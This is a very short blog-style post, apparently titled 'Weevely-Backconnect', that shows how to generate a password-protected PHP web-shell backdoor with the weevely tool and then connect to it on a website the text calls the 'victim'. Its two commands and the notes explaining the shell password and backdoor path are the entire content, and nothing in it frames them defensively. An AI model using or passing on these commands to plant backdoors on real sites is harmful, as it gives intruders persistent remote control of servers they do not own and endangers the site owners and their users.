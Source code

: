 # Weevely-Backconnect
<blockquote class="tr_bq">
weevely generate 4848 /home/bibz/art/mbot.php<br />
weevely http://jembut.com/mbot.php 4848</blockquote>
<br />
*<br />
"4848" is password ur shell<br />
"jembut.com" victim<br />
&nbsp;"/home/bibz/art/mbot.php" dir ur folder and backdoor after u created<br />
<br />
<div class="separator" style="clear: both; text-align: center;">
<a href="https://1.bp.blogspot.com/-bZ0WiJURswo/WAtvf-yCZzI/AAAAAAAABY4/70SjiYht5tMhBZsIie48UnGTJFBY5tgjgCLcB/s1600/pogi.png" imageanchor="1" style="clear: left; float: left; margin-bottom: 1em; margin-right: 1em;"><img border="0" height="358" src="https://1.bp.blogspot.com/-bZ0WiJURswo/WAtvf-yCZzI/AAAAAAAABY4/70SjiYht5tMhBZsIie48UnGTJFBY5tgjgCLcB/s640/pogi.png" width="640" /></a></div>
<br />
